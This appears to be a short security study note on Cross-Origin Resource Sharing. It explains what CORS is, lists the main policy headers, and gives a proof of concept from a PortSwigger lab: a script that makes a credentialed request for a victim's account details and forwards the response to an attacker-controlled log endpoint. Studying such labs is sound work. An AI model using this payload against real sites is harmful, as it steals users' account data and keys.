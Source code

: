 # Cross-Origin Resource Sharing
A browser mechanishm that enables controlled access to resources located outside of a domain. 

When it is badly implemented, it might cause vulnerabilities. 

There are some policies that manage what resources are allowed. These are the most important response headers that can enable special policies:
- [Access-Control-Allow-Origin](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin): * | \<origin> | null
- [Access-Control-Allow-Credentials](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials): true
- [Cross-Origin-Resource-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy): same-site | same-origin | cross-origin




## Proof of Concepts

(lab 1, of portswigger CORS learning path)
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/accountDetails',true);
    req.withCredentials = true;
    req.send();

    /* Send a requests to /log, to let the attacker read the response */
    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```